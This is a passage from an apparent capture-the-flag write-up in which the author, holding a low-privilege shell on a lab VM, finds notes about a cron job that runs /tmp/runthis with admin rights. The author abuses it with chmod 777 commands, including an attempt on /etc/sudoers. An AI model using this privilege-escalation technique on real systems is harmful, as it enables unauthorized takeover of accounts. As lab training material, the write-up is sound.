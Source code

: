 I moved on to see how I could turn my limited privileges into full privileges. Looking around I found some `.txt` files with notes:

```sh
sh-4.1$ ls ~
ls ~
cgi-bin  error  html  icons  notes.txt
sh-4.1$ cat ~/notes.txt
cat ~/notes.txt
hey eezeepz your homedir is a mess, go clean it up, just dont delete
the important stuff.

-jerry
sh-4.1$ ls /home/eezeepz
ls /home/eezeepz
MAKEDEV    chown        hostname  netreport       taskset     weak-modules
cbq        clock        hwclock   netstat         tc          wipefs
cciss_id   consoletype  kbd_mode  new-kernel-pkg  telinit     xfs_repair
cfdisk     cpio         kill      nice            touch       ypdomainname
chcpu      cryptsetup   killall5  nisdomainname   tracepath   zcat
chgrp      ctrlaltdel   kpartx    nologin         tracepath6  zic
chkconfig  cut          nameif    notes.txt       true
chmod      halt         nano      tar             tune2fs
sh-4.1$ cat notes.txt
cat notes.txt
Yo EZ,

I made it possible for you to do some automated checks,
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Do not forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The
output goes to the file "cronresult" in /tmp/. It should
run every minute with my account privileges.

- Jerry
```

I tried giving myself read, write and execute rights to the `/etc/sudoers` file by executing `echo "/home/admin/chmod 777 /etc/sudoers" > /tmp/runthis` but this didn't work. Whoever designed this machine probably had something more specific in mind so I gave myself full access to the `/home/admin` directory instead:

```sh
sh-4.1$ echo "/home/admin/chmod 777 /home/admin" > /tmp/runthis
echo "/home/admin/chmod 777 /home/admin" > /tmp/runthis
sh-4.1$ ls -al /home
ls -al /home
total 28
drwxr-xr-x.  5 root      root       4096 Nov 19  2015 .
dr-xr-xr-x. 22 root      root       4096 May  2 14:43 ..
drwx------.  2 admin     admin      4096 Nov 19  2015 admin
drwx---r-x.  5 eezeepz   eezeepz   12288 Nov 18  2015 eezeepz
drwx------   2 fristigod fristigod  4096 Nov 19  2015 fristigod
sh-4.1$ ls -al /home
ls -al /home
total 28
drwxr-xr-x.  5 root      root       4096 Nov 19  2015 .
dr-xr-xr-x. 22 root      root       4096 May  2 14:43 ..
drwx------.  2 admin     admin      4096 Nov 19  2015 admin
drwx---r-x.  5 eezeepz   eezeepz   12288 Nov 18  2015 eezeepz
```